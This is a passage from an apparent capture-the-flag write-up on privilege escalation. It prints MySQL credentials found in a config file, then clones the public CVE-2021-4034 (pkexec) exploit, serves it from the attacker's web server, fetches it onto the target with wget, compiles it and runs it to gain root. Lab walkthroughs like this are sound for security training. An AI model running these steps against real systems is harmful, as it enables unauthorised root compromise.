If we attempt to run `sudo -l` to check which commands can be executed with root privileges from our current user, we are prompted for a password, which we do not have.
```bash
$ sudo -l
```


By browsing through the different directories and reaching `/myapi/config/environments/development`, we discover a set of MySQL credentials.


```bash
username: developer,
password: #J!:F9Zt2u
```
```bash
$ mysql -udeveloper -p
```


We now have access to the MySQL database.
```bash
$ show databases;
```

```bash
$ use strapi
```


```bash
$ show tables;
```


We do not find any tables of interest in the database.
```bash
$ which pkexec | xargs ls -l
```



We observe that the target machine has `pkexec` installed and is vulnerable. For this reason, we clone the corresponding GitHub repository locally in order to exploit this vulnerability.


```bash
$ git clone https://github.com/berdav/CVE-2021-4034  
```



Now we zip this information
```bash
$ zip -r comprimido.z CVE-2021-4034  
```
To transfer the downloaded repository to the victim machine, we start a local web server. ( In the target machine we will go to the TEMP directory to make sure that we have permission in this directory)
```bash
$ python3 -m http.server 80 
```
And in the taget machine we use:
```bash
$ wget http://10.10.16.94/comprimido.zip
```


And now unzip the file in the target machine to execute
```bash
$ unzip comprimido.zip
```



Now we go to the directory CVE-2021-4034 and we will compilate
```bash
$ make
```


And now we will execute and we will be root and we can see the flag.
```bash
$ ./cve-2021-4034
```



```bash
Root Flag --> 95891db764443266a85e8277ba9b02df
```


[Back](README.md)